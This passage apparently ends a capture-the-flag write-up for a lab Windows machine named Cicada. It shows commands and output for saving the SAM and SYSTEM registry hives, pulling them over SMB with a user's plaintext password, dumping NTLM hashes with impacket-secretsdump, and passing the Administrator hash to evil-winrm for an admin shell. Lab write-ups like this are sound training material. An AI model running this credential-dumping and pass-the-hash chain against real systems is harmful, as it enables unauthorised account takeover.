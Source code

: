```
reg save HKLM\SAM C:\Shares\DEV\SAM.hiv; reg save HKLM\SYSTEM C:\Shares\DEV\SYSTEM.hiv;
```

After exfiltration to our attack maching we we will dump NTLM hashes with `impacket-secretsdump`.
```
smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' \\\\$TARGET_IP\\DEV -c "get SAM.hiv; get SYSTEM.hiv" &&\
impacket-secretsdump -sam SAM.hiv -system SYSTEM.hiv LOCAL -outputfile cicada
```
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```

Dictionary attack, against `Administrator` hash, with use of `hashcat` and `rockyou.txt` dictionary does not yield any results. This not an issue as we could use this hash in Pass-the-Hash attack with WinRM (as it supports NTLM authentication with hashes).

```
evil-winrm -i $TARGET_IP -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administrator
```

Now privileges are 'truly' elevated and we can conclude this writeup.